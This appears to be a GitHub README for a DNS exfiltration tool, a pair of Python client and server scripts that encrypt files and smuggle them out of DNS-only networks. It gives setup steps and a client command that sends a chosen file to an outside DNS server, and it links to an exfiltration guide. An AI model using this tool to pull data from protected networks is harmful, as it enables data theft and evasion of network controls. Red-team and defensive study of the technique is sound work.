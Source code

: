 # DNS Exfiltration
* DNS can be used to extract data from protected networks that only permit DNS. These are client & server scripts that both encrypt & decrypt data transferred through DNS. The client encrypts the data before it's sent through the network. The server decrypts the data once it's received from the client. 

# Setup:
* Dependencies (client/server)
	```
	pip3 install -r requirements.txt
	```
* Server:
	```
	python3 server.py -v
	```
* Note that since DNS server is usually running on privileged port `53`, the `server.py` needs root permissions.
* Client:
	```
	python3 client.py -n <YOUR DNS SERVER> -f /path/to/file
	```
* A gif showing the process:
* ![dns exfiltration](gif/dns_exfiltration.gif)
# Requires python3.8+
* Since the server & client are using UDP protocol to transfer data, such a transfer process is not reliable, and therefore, files might not be transferred correctly when either the file being transferred is large or there is a traffic noise on the server. The delay between the byte blocks being sent can also affect the byte blocks order, which may corrupt the file being sent if one block of bytes gets received before the one that must be received first.
# TODO
* Make the file sending process as reliable as possible.
----
* Useful links:
* [DNS exfiltration of data](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)
